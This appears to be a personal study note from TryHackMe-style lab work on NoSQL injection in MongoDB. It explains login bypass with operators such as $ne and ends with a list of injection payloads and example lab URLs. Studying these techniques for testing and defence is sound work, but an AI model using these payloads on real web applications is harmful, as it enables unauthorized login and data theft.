 # Basics

>[!INFO] What is NoSQL Injection ?
NoSQL injection is a web security vulnerability that allows the attacker to have **control over the** **database**.
A NoSQL injection happens by sending queries via **untrusted** and **unfiltered** web application input, which leads to leaked unauthorized information.
In addition, the attacker can use the NoSQL injection to perform various operations such as **modifying data, escalating privileges, DoS attacks**, and others.

# Exploit
## Bypassing login pages

Connect to the database and then look for a certain **username : password** IF they exist in the collection (_in the database_), then we have a valid entry.
The following is the query that is used in the web applications used on our login :

```sql
db.users.find({query})
db.users.findOne(query)
```

Functions where the query is JSON data that's send via the application :

```json
{"username": "admin", "password":"adminpass"}
```

**MongoDB operators heavily used in the injections :**
* `$eq` - matches records that equal to a certain value.
* `$ne` - matches records that are not equal to a certain value.
* `$gt` - matches records that are greater than a certain value.
* `$where` - matches records based on Javascript condition.
* `$exists` - matches records that have a certain field.
* `$regex` - matches records that satisfy certain regular expressions.

#### `$ne`

Inject a JSON objection **{"$ne": "XYZ"}** in the **password** field, and change the logic to become as follows :

```
# Similar to admin'--
# Ignores the password input
Instructing MongoDB to find a document (user) with a username equal to **admin** and his password is not equal to **xyz**, which turns this statement to TRUE because the admin's password is not xyz.
```

In the case, we wanted to log in to a system as another user who is not admin :

* _Instruct MongoDB to find a document that its username is not equal to admin and its password is not equal to xyz, which returns the statement as true._

![[Pasted image 20240906150234.png]]

## Payloads

```bash
 http://example.thm.labs/search?username=admin&role[$ne]=user
 http://example.thm.labs/search?username=ben&role=user
 http://example.thm.labs/search?username[$ne]=ben&role=user
 
# On Login pages / search bars
admin' || 'a'=='a
```

### MongoDB payloads

```plsql
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
```
